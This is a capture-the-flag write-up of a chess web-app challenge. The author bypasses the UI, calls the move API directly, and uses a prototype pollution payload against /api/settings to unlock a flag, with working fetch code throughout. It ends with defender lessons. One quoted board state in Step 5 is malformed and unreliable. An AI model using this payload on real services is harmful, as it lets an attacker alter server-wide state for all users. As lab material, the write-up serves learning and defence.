








# Fools Mate, Revenge (Full Writeup)

**Room:** Fools Mate, Revenge
**Difficulty:** Medium
**Category:** Web Exploitation
**Target:** `http://10.48.139.191:3000`

## Intro

This one looked deceptively simple at first glance: a little chess web app called **EndgameTrainer**, with a banner announcing *"Mate-in-one, White to move."* The obvious first instinct is to just find the mating move and play it on the board.

That instinct is wrong, and the room name is the tell — **Fools Mate, Revenge**. The board you're staring at is not the source of truth. The real game state lives on the server, and the "win" condition is gated behind something that has nothing to do with chess at all. Getting the flag took a full round trip: reading the page normally, digging through DevTools, reading the actual JavaScript source, talking to the API directly instead of the UI, and — after a handful of dead ends — landing on a prototype pollution bug.

I'm including every step here, including the attempts that didn't work, because those dead ends are honestly half the value of a writeup like this — they show *why* the working payload had to look the way it did.

---

## Step 1 — First look at the app

Opened the target in the browser, DevTools open on the **Network** tab before touching anything.



The board renders a normal 8x8 chess UI: black king and pawn near the top, white king/rook/pawn at the bottom, a move list panel, a reset button, and a settings section (theme / piece set / animation speed).

But the actual `GET /state` response in the Network tab (bottom right) told a completely different story:

```json
{
  "ok": true,
  "fen": "7k/5K2/8/7P/8/8/8/8 b - - 16 28",
  "status": "draw",
  "turn": "b"
}
```

That's not a mate-in-one position at all — it's a near-empty endgame, it's marked as a **draw**, and it says it's **Black's turn**, while the banner up top insists "White to move." First real signal: whatever's rendered on the board and whatever the server thinks is going on are two completely different things. The client is cosmetic.

---

## Step 2 — Getting an actual solvable position

Resetting the game a couple of times eventually produced a real, legitimately solvable position:



```json
{
  "ok": true,
  "fen": "6k1/5ppp/8/8/8/8/5PPP/R5K1 w - - 0 1",
  "status": "ongoing",
  "turn": "w"
}
```

Reading it out: Black's king sits on `g8`, hemmed in by its own pawns on `f7`, `g7`, and `h7` — no escape squares on the back rank. White has a rook on `a1` and king on `g1`.

**Ra1–a8#** is mate: the rook takes the entire open 8th rank, and the king literally cannot move anywhere, since every neighboring square is either off the board or occupied by a friendly pawn.

At this point the "puzzle" part of the challenge was solved. The actual challenge hadn't even started yet.

---

## Step 3 — Confirming how the server tracks state

Before touching the move, I checked the **Cookies** tab to understand what was actually identifying "my" game to the server:



A single `sid` cookie (`499e075c25f8a05fcb934d78033780d1`) is sent with every request. That confirms the entire game — the FEN, whose move it is, whether it's over — is tracked server-side and keyed purely by this cookie. Nothing about the game lives in the browser beyond what gets rendered for display.

---

## Step 4 — Reading the actual client source

Rather than blindly poking at endpoints, I went into DevTools' **Sources** panel and read through the full `app.js` bundle being served to the page.


The important bits, boiled down:

```js
async function sendMove(from, to, promotion) {
  ...
  res = await fetch('/api/move', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ from, to, promotion: promotion || undefined })
  });
  ...
}

function finalize(data) {
  refreshHighlights();
  updateStatus();
  if (data.flag) {
    showFlag(data.flag);
  } else if (data.locked) {
    showSystemNotice(data.message || 'Checkmate! Reward is locked for this account.');
  }
}
```

Two big takeaways:

1. Every move — whether played by dragging a piece or clicking — ultimately becomes a plain `POST /api/move` with a JSON body `{from, to, promotion}`. Nothing stops calling this endpoint directly from the console and skipping the board UI entirely.
2. On checkmate, the client checks `data.flag` first. If it's missing, it falls back to a **`data.locked`** branch that shows *"Checkmate! Reward is locked for this account."* So winning the actual chess game is necessary but **not sufficient** — there's a second, unrelated gate the server checks before it'll hand out the flag.

The bundled `chess.js` (a well-known open-source move-validation library, MIT-style license header and all) is only used client-side to highlight legal squares and validate drag targets for UX purposes. It has no bearing on what the server will accept — the server clearly runs its own authoritative validation, since it's the one deciding `status`/`turn`/`winner`.

I also noticed the page injects a script called `ag-scripts.js`, which turned out to be an ad-blocker's (AdGuard extension) injected content scriptlets — `set-constant`, `no-topics`, `no-protected-audience` — completely unrelated to the challenge itself, just noise from my own browser extension:



Worth mentioning only because it's easy to mistake extension-injected scripts for something the target app is doing — they're not; they came from my browser, not the server.

---

## Step 5 — Playing the mate directly against the API

Skipped the board entirely and called the move endpoint from the console:

```js
fetch('/api/move', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({from:'a1', to:'a8'})
}).then(r => r.json()).then(console.log)
```

The response confirmed checkmate — and the `locked` branch from the source fired exactly as predicted:



```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R6k/5ppp/8/8/8/8/5PP1/7P6K1 b - - 2 4",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "locked": true,
  "message": "Checkmate! No reward for you.",
  "reason": "reward gate closed: session.config.unlocked is not set"
}
```

That `reason` field is the actual key to the whole room. Somewhere server-side, there's a check against `session.config.unlocked` before the flag gets released. This is a per-session value, tied to the same `sid` cookie from Step 3.

---

## Step 6 — Finding a way to influence session.config (and the dead ends along the way)

The app's settings panel (theme / piece set / animation speed) saves via:

```js
async function savePrefs() {
  const prefs = {
    theme: themeSelect.value,
    pieceSet: pieceSetSelect.value,
    animationMs: Number(animSelect.value)
  };
  ...
  const res = await fetch('/api/settings', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(prefs)
  });
  const data = await res.json();
  if (data && data.preferences) applyPrefs(data.preferences);
}
```

This looked like the obvious candidate for reaching whatever `session.config` object the move endpoint was checking. I want to be upfront that this part took several failed guesses before landing on something that worked — worth showing in full since the shape of the failures is what eventually pointed at the right vulnerability class.

### Attempt 1 — just send an extra `unlocked` key at the top level

```js
fetch('/api/settings', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({unlocked: true})
}).then(r => r.json()).then(console.log)
```

Result:



```json
{ "ok": true, "preferences": {} }
```

No error, but nothing useful either — an empty `preferences` object. This is where a subtle trap lives: **an empty echoed-back object does not prove the key was rejected.** It only proves the server doesn't include unrecognized keys when it reflects `preferences` back to the client. The server could still be doing something with that key server-side that just never gets shown to you. That distinction turned out to matter a lot for how I read every attempt after this.

### Attempts 2, 3, 4 — nested shapes matching the `session.config.unlocked` error path literally

Since the error said `session.config.unlocked`, I tried a few structural variations to match that path directly:

```js
// nested under config
fetch('/api/settings', {method:'POST', headers:{'Content-Type':'application/json'},
  body: JSON.stringify({config: {unlocked: true}})}).then(r=>r.json()).then(console.log)

// flat dotted key
fetch('/api/settings', {method:'POST', headers:{'Content-Type':'application/json'},
  body: JSON.stringify({"config.unlocked": true})}).then(r=>r.json()).then(console.log)

// nested under preferences
fetch('/api/settings', {method:'POST', headers:{'Content-Type':'application/json'},
  body: JSON.stringify({preferences: {unlocked: true}})}).then(r=>r.json()).then(console.log)
```

Then, each time, re-ran the reset + mate check to see if the `reason` field had changed at all:

```js
fetch('/api/reset', { method: 'POST' })
  .then(r => r.json())
  .then(() => fetch('/api/move', {
    method: 'POST',
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({from:'a1', to:'a8'})
  }))
  .then(r => r.json())
  .then(console.log)
```



Every single one came back the same way: `locked: true`, same `reason: "reward gate closed: session.config.unlocked is not set"`, and every settings call still echoed back an empty `preferences: {}`. None of the "obvious" nested shapes moved the needle at all.

### A wrong turn — checking `Object.prototype` in the wrong place

At one point I ran `console.log({}.unlocked)` in the browser console to "check if pollution worked" — this was a mistake in reasoning, not just a failed payload. That check only inspects **my own browser's JS engine**, which has nothing to do with the Node.js process running server-side. Even a fully successful server-side prototype pollution would never show up in my local browser console. The only real signal available was, and always had been, the `reason` field coming back from a fresh reset + mate attempt — not anything checkable client-side.



So: several settings payloads tried, all echoing an empty object, no visible change in the lock reason, and one flawed verification step that couldn't have told us anything either way. At this point the "shortcut" version of the writeup jumps straight to the winning payload — but the honest version is that it took this whole sequence of misses to narrow down *why* the merge had to be attacked via `__proto__` specifically, rather than any of the more "sensible-looking" nested key shapes above.

---

## Step 7 — The actual vulnerability: prototype pollution via `__proto__`

The very specific wording of the error — `session.config.unlocked` — combined with the fact that plain nested objects (`{config: {unlocked: true}}`, `{preferences: {unlocked: true}}`, etc.) did nothing, pointed at one specific bug class: the settings endpoint was almost certainly taking the posted JSON body and recursively merging it into some internal config object (a homemade deep-merge, or an unguarded library merge) without stripping dangerous keys. That's the classic setup for **prototype pollution** — if the merge function walks into a key literally named `__proto__` and assigns into it, the write lands on `Object.prototype` itself, which every plain object in that Node.js process inherits from — including whatever internal `session.config` object gets checked before releasing the flag.

The payload that finally worked:

```js
fetch('/api/settings', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({ "__proto__": { "unlocked": true } })
}).then(r => r.json()).then(console.log)
```

Immediately followed by a fresh reset and the winning move again, to see if the gate had actually opened:

```js
fetch('/api/reset', { method: 'POST' })
  .then(r => r.json())
  .then(() => fetch('/api/move', {
    method: 'POST',
    headers: {'Content-Type':'application/json'},
    body: JSON.stringify({from:'a1', to:'a8'})
  }))
  .then(r => r.json())
  .then(console.log)
```

(Ran this as one single chained block in the actual console — it works exactly the same as two separate calls, since each `.then()` in a promise chain just waits for the previous step to resolve before moving to the next one, regardless of what value it resolved with.)

---

## Step 8 — Flag

This time, `locked` was gone and a `flag` field appeared in its place:


```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R6k/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{pr0t0_p0lluted_th3_r3f3r33}"
}
```

**Flag:** `THM{pr0t0_p0lluted_th3_r3f3r33}`

---

## Root Cause

Two separate weaknesses were chained together to get here:

1. **Client-side trust** — the visible chess board and its move validator exist purely for UI polish. Nothing enforces that moves come from the rendered board; `/api/move` will happily accept any move sent directly, and the server is the only thing that actually decides legality, turn order, and game-over state.
2. **Prototype pollution in `/api/settings`** — the endpoint deep-merges attacker-controlled JSON into an internal config object without guarding against `__proto__`/`constructor`/`prototype` keys. Writing to `Object.prototype.unlocked` satisfied the `session.config.unlocked` check globally — for every session, not just the one that sent the payload — which is a much bigger problem in a real app than it might sound like here.

## What I'd do differently next time

- Jump to `__proto__` payloads earlier once an error message references a nested path like `a.b.c` — that's a strong tell of a naive recursive merge, and the "sensible" nested-object guesses are almost never how these bugs actually get triggered.
- Remember that an empty/whitelisted echo response from an API is not evidence a field was rejected server-side — only that it wasn't reflected back.
- Any "verify pollution happened" check needs to run against the actual server process, not my own browser — client-side and server-side `Object.prototype` are completely separate runtimes.

## Lessons for defenders

- Never trust a client-rendered game/UI state or its embedded validation library — always re-validate server-side, and don't assume the UI is the only way to reach an endpoint.
- Never deep-merge untrusted JSON into long-lived objects without explicitly blocking `__proto__`, `constructor`, and `prototype` keys. Prefer `Object.create(null)`, a `Map`, or a merge utility with pollution protection built in (recent `lodash` versions patched this class of bug; hand-rolled merge functions almost never account for it).
- Specific, verbose error/reason strings from an API are a gift to an attacker — they tell you exactly which internal check to go satisfy next.

---


